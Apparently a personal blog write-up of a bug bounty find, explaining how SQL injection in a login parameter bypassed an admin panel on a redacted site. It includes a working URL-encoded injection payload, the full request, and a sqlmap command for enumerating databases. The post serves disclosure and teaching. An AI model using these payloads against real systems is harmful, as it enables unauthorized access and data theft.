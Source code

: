 
# Introduction

Welcome to my very first blog post! I’m excited to share my bug bounty hunting journey with you. A year ago, I delved into the world of cybersecurity without any formal technology or IT training. Instead, I started my bug bounty adventure by self-teaching using resources like PortSwigger’s labs and educational content on YouTube. Today, I want to share a recent discovery where I found a vulnerability in a web application that allowed me to bypass its admin panel. I’ll explain how this vulnerability, known as SQL injection, works and how I used it to gain unauthorized access.

# Understanding SQL Injection

SQL injection is a type of attack where an attacker can manipulate an application’s SQL query by injecting malicious SQL code into user inputs. If the application doesn’t properly validate and sanitize these inputs, it can execute unintended SQL commands, leading to security breaches. Most often, you will see attackers/researchers injecting into vulnerable URL parameters (both in GET and POST requests), but sometimes, you can use SQL syntax/injections to bypass login screens. In this attack, I was able to demonstrate both of these attacks- bypassing the login panel, and also returning the database contents.

# Exploiting the Vulnerability

# Identifying the Vulnerable Login Page

When I visited `https://redacted.com/redacted/redacted_admin.xml`, I noticed a login prompt. When you enter your credentials and click login, the application sends a GET request with the credentials in the following way:

GET /redacted/redacted_admin.xml?id=admin&pswd=admin&uniqueId=0.5331820440279285 HTTP/1.1 2

After trying the basic `admin:admin` with no luck, and reading through the JS on the page, I decided to try an SQL injection. Testing some various payloads led me to the one that actually worked- I was able to inject into the `id` parameter using the payload:

-6513%27%20OR%20%28SELECT%20INSTR2%28NULL%2CNULL%29%20FROM%20DUAL%29%20IS%20NULL--%20SpSw

The full request was:

https://redacted.com/redacted/redacted_admin.xml?id=-6513%27%20OR%20%28SELECT%20INSTR2%28NULL%2CNULL%29%20FROM%20DUAL%29%20IS%20NULL--%20SpSw&pswd=admin&uniqueId=0.5331820440279285

After visiting this link, I was able to access the admin panel:

![](https://miro.medium.com/v2/resize:fit:700/1*OqqwcL_4o9cCY_6Zz3dhvQ.png)

# Additional Exploitation with sqlmap

I also ran `sqlmap` on the raw request from Step 1, which helped me retrieve all the databases. This powerful tool can provide valuable insights into the structure of the database and its contents. The command I used:

`sqlmap -r request.txt --random-agent --dbs --proxy=http://127.0.0.1:8080 --force-ssl --batch --risk 3 --level 3`

Which returned the databases, as expected:

![](https://miro.medium.com/v2/resize:fit:700/1*HwPR-p-R3eh9rHefd7kMBw.png)

# Impact and Conclusion

This vulnerability, known as SQL injection, has the potential to be highly damaging. It allows attackers to bypass security measures and access sensitive information. It’s essential for developers to validate and sanitize user inputs to prevent such issues.

After discovering this vulnerability, I reported it to the website’s administrators, who, I hope, have taken the necessary steps to fix it. SQL injection is a common vulnerability on the web, and understanding how it works can help both security experts and website developers improve their practices.

Stay tuned to this channel, as I plan to share more write ups with you all in the near future.

Cheers!



